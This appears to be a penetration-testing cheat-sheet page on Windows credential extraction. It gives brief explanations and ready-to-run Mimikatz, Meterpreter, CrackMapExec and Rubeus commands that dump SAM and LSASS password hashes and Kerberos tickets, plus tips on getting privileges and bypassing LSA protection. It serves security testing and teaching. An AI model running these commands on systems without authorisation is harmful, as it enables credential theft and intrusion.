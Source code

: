 ```yaml
---
title: Windows privilege escalation
---
```


## Extracting NTLM hash

### From local SAM
SAM (Security Account Manager) is a database with all the **local user** accounts and passwords. It acts as a database. Passwords, which are stored in the SAM, are hashed. SAM data is used by LSASS to verify user credentials.

Mimikatz is one of the tools that are able to dump SAM file hashes.

```powershell
./mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

Metasploit, when the session is already established, has built-in ability to dump SAM hashes.

```bash
# Meterpreter
meterpreter > hashdump
```

CrackMapExec tool is able to remotely dump SAM hashes (via SMB using credentials).

```bash
crackmapexec smb <target-ip> -u <username> -p <password> --sam
```

### From LSASS memory
LSASS (_Local Security Authority Subsystem Service_) is a process running on every Windows OS. It verifies users logging, handles password changes, creates access tokens, writes to the Windows Security Log. In a domain environment LSASS communicates with a Domain Controller. It manages NTLM, Kerberos, NetLogon authentication. It's not possible to use Windows without `lsass.exe` running. An attacker is able to dump the LSASS process memory and retrieve NTLM hashes.

Tips:

* Memory dump must be performed after logging in successfully. Correct data must be provided to LSASS process before extraction.
* Memory dump should be performed from SYSTEM or local Administrator account.
* Not secured LSASS memory dump can be performed using built-in Windows tools (e.g. [dump.exe](https://lolbas-project.github.io/lolbas/OtherMSBinaries/Dump64/)). Then credentials can be extracted offline.

LSASS process might have additional security layer called _LSA protection_. It can be omitted with tools like **Mimikatz**.

```powershell
./mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "exit"
```

## Extracting Kerberos TGT
Kerberos tickets can be extracted from LSASS memory (Kerberos harvesting) using `mimikatz` or `rubeus` tool. Most often it requires administrator privileges.

```powershell
# Show all Kerberos tickets stored in memory (and associated services)
Rubeus.exe triage

# Dump Kerberos tickets of :user
Rubeus.exe dump /user:<user>

# Dump Kerberos tickets of :service
Rubeus.exe dump /service:<service>
```
